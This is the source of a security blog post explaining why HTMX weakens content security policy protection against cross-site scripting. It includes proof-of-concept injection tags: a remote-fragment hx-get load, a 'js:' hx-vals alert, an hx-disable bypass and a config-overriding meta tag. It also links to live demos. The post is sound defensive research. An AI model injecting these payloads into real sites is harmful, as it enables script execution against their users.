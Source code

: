 ```yaml
---
layout: post
title: "HTMX does not play well with content security policy"
thumbnail: blue-gate-480.jpg
date: 2024-06-26
---
```


HTMX is a JavaScript framework that makes it possible to replace DOM elements with dynamic data from AJAX requests, specified by HTML attributes. Because dynamic behavior is added to the page using normal HTML tags with custom attributes, it is difficult to provide additional security against cross-site scripting (XSS) attacks.

<!-- Photo source: https://pixabay.com/photos/blue-gate-english-countryside-1725791/ -->

## Introduction

Normally, a content security policy (CSP) can be used to limit which JavaScript is executed. It is difficult to configure a CSP where HTMX keeps working and is also protected against cross-site scripting.

## Loading malicious fragments

An obvious HTMX injection method is to perform a request to a malicious host. HTMX retrieves a HTML fragment, possibly containing JavaScript, and places it on the page. By triggering a request to domain other than the web application's, this can be used to load malicious script.

For example, the following tag loads and executes JavaScript that shows an alert:

```
<div hx-get="https://test.sjoerdlangkemper.nl/cors.php" hx-trigger="load"></div>
```

<a href="https://demo.sjoerdlangkemper.nl/htmx/connect.php?name=hacker">Try it</a>

## Unsafe eval

HTMX dynamically creates and executes code. There are several HTMX [features](https://htmx.org/docs/#configuration-options) that do this:

- [trigger filters](https://htmx.org/docs/#trigger-filters)
- [*hx-on* attributes](https://htmx.org/docs/#hx-on)
- *hx-vals* or *hx-headers* with the `js:` or `javascript:` prefix

For these to work, you have to allow evaluating dynamic code, using the CSP option `unsafe-eval`. However, allowing `unsafe-eval` immediately makes it possible to inject JavaScript using HTMX functionality.

For example, injecting the following tag shows an alert popup:

```
<div hx-vals='js:"a":alert(`XSS`)' hx-get="/" hx-trigger='load'>foo</div>
```

<a href="https://demo.sjoerdlangkemper.nl/htmx/eval.php?name=hacker">Try it</a>

## Disabling HTMX with *hx-disable*

It's possible to disable HTMX functionality in part of the page with the [*hx-disable* attribute](https://htmx.org/docs/#hx-disable). The docs claim this can bring additional security:

```
<div hx-disable>
    <%= raw(user_content) %>
</div>
```

> And htmx will not process any htmx-related attributes or features found in that content. This attribute cannot be disabled by injecting further content: if an hx-disable attribute is found anywhere in the parent hierarchy of an element, it will not be processed by htmx.

Of course, this is trivial to bypass: just close the div tag with `</div>` and insert your payload outside of the element with the *hx-disable* attribute.

<a href="https://demo.sjoerdlangkemper.nl/htmx/disable.php?name=hacker">Try it</a>

## Nonces for inline scripts

Using a nonce in the CSP is the most secure way to prevent script injection. The application generates a random nonce and adds that to all scripts that are part of the application. Scripts injected by the attacker don't have the correct nonce and are not executed.

HTMX has functionality that automatically adds the correct nonce to inline scripts it retrieves. This is convenient, but totally breaks the security model of CSP with nonces. By adding the correct nonce to any script it finds, HTMX totally compromises the security offered by nonces.

Automatically adding nonces is done through the [parameter](https://htmx.org/docs/#config) `htmx.config.inlineScriptNonce`. 

<a href="https://demo.sjoerdlangkemper.nl/htmx/nonce.php?name=hacker">Try it</a>

## Configuration meta tag

HTMX has several configuration options, which can be configured using a `<meta>` tag. In an XSS attack, this makes it possible to modify HTMX's configuration by injecting the correct `<meta>` tag.

For example, above we mentioned that the `hx-disable` attribute disabled HTMX processing. However, it is possible to rename that attribute in the configuration. By setting it from `hx-disable` to something else, the `hx-disable` functionality can be disabled. This can be achieved by injecting the following tag:

```
<meta name="htmx-config" content='{"disableSelector":"outerHTML"}'>
```

This even works within a tag with *hx-disable*, but only if there is no similar meta tag above it.

## Conclusion

When a site uses HTMX, the attack surface of HTML injection greatly increases. It is possible to limit the risk of XSS by using a content security policy, but it not possible to have all HTMX features and provide security against injection.
